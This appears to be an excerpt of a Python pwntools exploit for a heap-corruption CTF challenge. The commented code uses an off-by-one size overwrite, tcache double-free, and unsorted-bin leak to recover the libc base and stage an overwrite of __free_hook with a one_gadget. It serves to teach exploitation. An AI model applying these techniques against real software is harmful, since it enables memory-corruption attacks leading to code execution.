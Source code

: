 ```py
    # At offset 0xf0 we create a fake next_chunk, so that when we overwrite the last byte
    # of the sz = 0x140 to sz = 0x100 we will have a valid prev_inuse bit
    broadcast(flat({
        0xf0: [p64(0), p64(0x41)]
    }, filler = b'B', length = 0x130))

    # Empty pipe 0
    for _ in range(10):
        free(0)

    # Allocate a chunk before the target chunk and use the off-by-one
    # to poison the size
    alloc_hex(0, (b'A' * 0x1e8).hex().encode() + b'1')

    # Free target chunk again to put it in another tcache
    # Now that the size is changed we can free it again
    # and we will not cause a double-free abort as the target tcache bin is different
    free(1)

    # Empty pipe 0
    free(0)

    # Fill pipe 0 with all small and last big
    # This big chunk will end up in unsorted bin when freed
    alloc(0, b'F' * 0x1000)

    for _ in range(9):
        alloc(0, b'.' * 0x10)

    # Add padding after the chunk that will end in unsorted
    alloc(1, b'.' * 0x30)

    # Put chunk in unsorted, now pipe 0 has 9/10 messages
    free(0)

    # Fill pipe 0
    alloc(0, b'.' * 0x10)

    # Broadcast, this will reclaim the unsorted, free it and put it in pipe 1
    broadcast(b'@' * 0xf00)

    # Alloc a small portion from the unsorted bin
    # so that when the freed message in pipe 1 is received
    # we will free this message without crashing and also
    # leaking the pointers from the unsorted right after this chunk
    alloc(1, b'W' * 0x50)

    # Remove padding chunk from pipe 1
    free(1)

    # Leak libc from unsorted
    # This is when the 0x50 sized buffer is freed to prevent double freeing the unsorted
    libc_leak = u64(free(1)[107:107+6] + b"\x00\x00")
    libc.address = libc_leak - libc.sym.main_arena - 96

    log.warning("libc leak : 0x%x", libc_leak)
    log.warning("libc base : 0x%x", libc.address)

    # Empty pipe 0
    for _ in range(10): free(0)

    # Use the double freed tcache entry to get arb write
    # and overwrite __free_hook with a one_gadget
```